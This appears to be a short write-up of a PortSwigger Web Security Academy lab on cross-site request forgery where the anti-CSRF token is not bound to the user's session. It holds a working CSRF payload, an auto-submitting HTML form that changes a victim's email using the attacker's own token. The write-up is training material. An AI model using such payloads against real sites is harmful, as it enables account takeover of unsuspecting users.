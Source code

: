 # CSRF Vulnerability


![****](/PortSwigger/Academy/PortSwigger/Labs/CSRF/Screenshots/cssrf4-1.PNG)

![****](/PortSwigger/Academy/PortSwigger/Labs/CSRF/Screenshots/cssrf4-2.PNG)


## Let generate some Payloads!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
	<input required type="hidden" name="csrf" value="kDsuUM8eQZirZ12sWwS4BkMtluaPUT2E">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.
- Use your account token and check if any changes can be submitted!